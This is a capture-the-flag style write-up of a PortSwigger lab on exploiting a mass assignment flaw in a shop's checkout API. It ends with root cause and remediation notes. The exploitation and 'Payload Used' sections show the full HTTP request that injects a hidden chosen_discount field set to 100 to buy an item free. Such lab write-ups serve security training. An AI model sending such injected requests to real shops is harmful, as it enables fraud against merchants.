



## Metadata

- **Difficulty:** Practitioner
- **Category:** API testing
- **Lab URL:** [Lab: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
- **Date Solved:** 29/9/2026
## Vulnerability Summary

The app exposes interactive API documentation at `/api` to standard users (information disclosure), revealing a hidden parameter (`chosen_discount`) in the request body of the `POST /api/checkout` request. The backend accepts and binds unintended client-supplied fields (`chosen_discount`) into the order processing model, allowing an authenticated attacker (or any user) to manually modify the discount percentage to `100`, effectively buying any item for free.
## Reconnaissance

- Logging in with the credentials `wiener:peter` at the `/login` endpoint, we are taken to the `/my-account` endpoint. It is observed that we have `$0.00` in our store credit, while the target item, `Lightweight "l33t" Leather Jacket`, costs `$1337.00`.
- Process with the normal purchasing workflow: `GET /product?productId=1` -> `POST /cart` -> `GET /cart`. Notice that after the `GET /cart` request, the client automatically sends a `GET /api/checkout` that, in the response, reads: 
```http
{
  "chosen_discount":{
    "percentage":0
  },
  "chosen_products":[
    {
      "product_id":"1",
      "name":"Lightweight \"l33t\" Leather Jacket",
      "quantity":1,
      "item_price":133700
    }
  ]
}
```
- `chosen_discount` wasn't selected by us anywhere. This is a hidden parameter, and its internal state is serialized into JSON. If we can successfully modify the value of this parameter, this is a **mass assignment** vulnerability.
- Same request, but sending `GET /api` results in a `302 Found` that after following the redirection, takes us to the app's interactive API documentation page.

- We can manually supplement the discount's `percentage` parameter, along with the products in the `POST /api/checkout` request:


This confirms that the app is vulnerable to mass assignment. 
## Exploitation Steps

1. Navigate to the `/login` endpoint and login with credentials `wiener:peter`.
2. Navigate to the `/api` endpoint. 
3. In the `POST` request, supplement these values: 

then click on "Send request".
4. Observe that in your HTTP history, `POST /api/checkout` is sent with the request body:
```http
{
  "chosen_discount":{
    "percentage":100
  },
  "chosen_products":[
    {
      "name":"Lightweight \"l33t\" Leather Jacket",
      "product_id":"1",
      "quantity":1
    }
  ]
}
```
and it resulted in a `201 Created` HTTP response. Lab is solved.
## Payload Used

Request:
```http
POST /api/checkout HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...

{
  "chosen_discount":{
    "percentage":100
  },
  "chosen_products":[
    {
      "name":"Lightweight \"l33t\" Leather Jacket",
      "product_id":"1",
      "quantity":1
    }
  ]
}
```
The `chosen_discount` parameter was automatically bound. By supplementing the discount's `percentage` parameter with the value `100`, we were able to buy the item at a `100%` discount, effectively makes it free.
## Root Cause

The app automatically binds user-controllable JSON keys directly to backend data models (or domain objects) during checkout without enforcing a whitelist of permitted input properties (mass assignment). Because the backend parser deserializes the entire payload indiscriminately, the `chosen_discount` object, which normally is computed or applied through server-side business logic, can be initialized or overwritten directly by the client.
## Remediation

- **Implement Strict Whitelisting (Data Transfer Objects):** Avoid binding raw incoming JSON bodies directly to domain entities or database models. Use explicit DTOs or schema validators that only deserialize the fields the client is explicitly permitted to modify (such as `product_id` and `quantity`).
- **Enforce Read-Only/Server-Managed Properties:** Fields impacting financial transactions, such as prices, discounts, tax calculations, etc. must be calculated exclusively on the server side and ignored or rejected if supplied in client requests.
- **Restrict API Documentation Visibility:** Disable public or unauthenticated access to interactive API documentation endpoints in production environments if they expose sensitive internal schema definitions and endpoints.